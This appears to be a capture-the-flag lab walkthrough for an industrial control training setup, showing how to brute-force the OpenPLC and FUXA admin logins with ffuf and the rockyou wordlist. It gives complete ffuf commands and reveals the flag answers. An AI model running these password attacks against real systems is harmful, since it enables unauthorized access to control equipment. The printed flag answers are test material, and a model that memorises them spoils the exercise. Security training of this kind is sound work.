 # Password attack

## Password attack on OpenPLC
In this example we try to get the password of the openplc login using the password fuzzer [ffuf](https://github.com/ffuf/ffuf).  

### Check response
OpenPLC is running at [http://<DEVICE_IP>:8080/login](http://<DEVICE_IP>:8080/login]).
After entering wrong credentials, this page is displayed:  
![bad credentials](doc/wrong_login.png)

When the browsers built in developer console is open during the request, we can see the what is sent and received when we try to login. E.g. in chrome with F12  
![login request](doc/login_request.png)

And the sent payload  
![login payload](doc/login_payload.png)

### Download
```sh
mkdir ~/ffuf
cd ~/ffuf
wget https://github.com/ffuf/ffuf/releases/download/v2.1.0/ffuf_2.1.0_linux_amd64.tar.gz
tar xf ffuf_2.1.0_linux_amd64.tar.gz
```

### Get a wordlist
```sh
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

### ffuf
Start fuff with:
- `-w ./rockyou.txt` the downloaded wordlist
- `-X POST -H "Content-Type: application/x-www-form-urlencoded"` information from the login request
- `-d "username=admin&password=FUZZ"` information form the login request payload (FUZZ is replaced by ffuf)
- `-u http://$DEVICE_IP:8080/login` the request
- `-fs 4561` the length of the response on wrong login
```sh
./ffuf -v -w ./rockyou.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -raw -u http://$DEVICE_IP:8080/login -fs 4561
```

For more info start it without parameters
```sh
./ffuf
```

### Find the flag
The flag has the format "CybICS(flag)".

**Hint**: The flag is part of the user information.
<details>
  <summary>Solution</summary>
  
  ##
  :anger: Flag: CybICS(0penPLC)
  ![Flag OpenPLC Password](doc/flag.png)
</details>

## Password attack on FUXA
Use the previous knowledge to fuzz the admin login of FUXA.
FUXA is running at [http://<DEVICE_IP>:1881](http://<DEVICE_IP>:1881). 

### Find the flag
The flag has the format "CybICS(flag)".

**Hint**: The flag appears after successful login on the HMI.
<details>

```sh
./ffuf -v -w ./rockyou.txt -X POST -H "Content-Type: application/json" -d '{"username": "admin", "password": "FUZZ"}' -raw -u http://$DEVICE_IP:1881/api/signin -fr "error"
```


  :anger: Flag: CybICS(FU##A)
  ![Flag FUXA Password](doc/flag2.png)
</details>
